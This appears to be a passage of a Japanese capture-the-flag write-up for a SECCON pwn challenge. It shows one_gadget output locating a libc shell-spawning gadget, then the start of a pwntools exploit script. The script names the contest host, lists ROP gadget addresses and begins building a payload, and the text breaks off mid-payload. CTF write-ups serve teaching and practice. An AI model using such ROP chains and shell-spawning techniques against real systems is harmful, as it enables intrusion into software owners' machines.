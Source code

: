 使用するone_gadgetは以下
```
$ one_gadget ./libc.so.6
...
0x1111b7 posix_spawn(rsp+0x64, "/bin/sh", rdx, 0, rsp+0x70, r9)
constraints:
  [rsp+0x70] == NULL
  [r9] == NULL || r9 == NULL
  rdx == NULL || (s32)[rdx+0x4] <= 0
```

最終的なexploit
```python
#!/usr/bin/python3
from pwn import *
import sys

#config
context(os='linux', arch='i386')
context.log_level = 'debug'

FILE_NAME = "./chall"
#"""
HOST = "mrga.seccon.games"
PORT = 7428
"""
HOST = "localhost"
PORT = 7777
#"""

if len(sys.argv) > 1 and sys.argv[1] == 'r':
	conn = remote(HOST, PORT)
else:
	conn = process(FILE_NAME)

elf = ELF(FILE_NAME)
addr_main = elf.symbols["main"]
addr_start = elf.symbols["_start"]
got_puts = elf.got["puts"]
plt_puts = elf.plt["puts"]
plt_gets = elf.plt["gets"]
addr_bss = elf.bss()

# used gadget
add_ah_dh_ret = 0x004010b4          # add ah, dh ; nop word [rax+rax+0x00000000] ; hint_nop edx ; ret ;
add_eax_x2ecb = 0x00401157			# add eax, 0x00002ECB ; add dword [rbp-0x3D], ebx ; nop  ; ret  ;
mov_eax_x0_pop_rbp_ret = 0x004011a6 # mov eax, 0x00000000 ; pop rbp ; ret  ; 
mov_eax_edi_gets_ret = 0x4011c2     #

only_ret = 0x0040101a
leave_ret = 0x004011d4
pop_rbp_ret = 0x0040115d
iikanzi = 0x0040115c                # : add dword [rbp-0x3D], ebx ; nop  ; ret  ; 

libc = ELF('./libc.so.6')

def exploit():

	payload = b''
	payload += b'z'*0x10
	payload += p64(addr_bss+0x88) 			# old_rbp
	payload += p64(plt_gets)				# gets(some_addr_libc) #2
	payload += p64(mov_eax_x0_pop_rbp_ret)
```